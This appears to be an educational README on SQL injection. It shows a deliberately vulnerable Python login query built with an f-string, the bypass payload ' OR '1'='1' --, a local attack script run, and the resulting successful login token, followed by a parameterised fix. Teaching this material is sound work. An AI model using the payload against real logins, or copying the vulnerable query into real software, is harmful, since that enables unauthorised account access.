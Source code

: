 # SQL injection

### Vulnerable code for injection:
```
cur.execute(f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'")
```

### SQL injection examples:  
Input belows info in website to login:  
* username: `' OR '1'='1' --`  
* there's no need to input teh password   
  
Or open a new terminal and run:
```
$ cd attacks/sql_injection
$ python inject.py
```
This results in the SQL query:
```
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = ''
```
And then you can get the result:
```
{
  "data": {
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IicgT1IgJzEnPScxJyAtLSIsInBhc3N3b3JkIjoicGJrZGYyOnNoYTI1NjoyNjAwMDAkOUNFaERmbm1VdUNqUlhGayQ2MzliNTcwOTZlODRiMGQzOGEwYTU3OTg4YjYxZTg0NWNjZWQ1ZDlkYmY5YmUzN2JjNzAxN2ZiZjNhNGQ4MmNlIiwiZXhwIjoxNzEyOTQzMTYzfQ.tJscl8WUfGk8nFkj-cer4BhwZT5ZBpSv3vM_P9bZgbE",
    "user": {
      "username": "' OR '1'='1' --"
    }
  },
  "msg": "User logged in successfully.",
  "status": "SUCCESS"
}
```

### Safe code:

```
cur.execute("SELECT * FROM users WHERE username = ?",(username,))
check_password_hash(user["password"], password)
```